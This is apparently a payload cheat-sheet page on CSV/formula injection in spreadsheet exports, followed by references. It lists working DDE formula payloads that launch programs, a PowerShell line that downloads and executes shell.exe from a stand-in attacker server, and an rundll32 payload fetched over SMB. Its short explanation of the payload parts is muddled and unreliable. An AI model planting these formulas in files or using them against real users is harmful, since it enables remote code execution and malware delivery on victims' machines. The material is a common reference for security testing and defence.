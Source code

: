 # CSV Injection (Formula Injection)

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel,Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/index.php/CSV_Excel_Macro_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection)
* [Comma Separated Vulnerabilities - James Kettle](https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [CSV Injection -> Meterpreter on Pornhub - @ZephrFish Andy](https://news.webamooz.com/wp-content/uploads/bot/offsecmag/147.pdf)
* [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)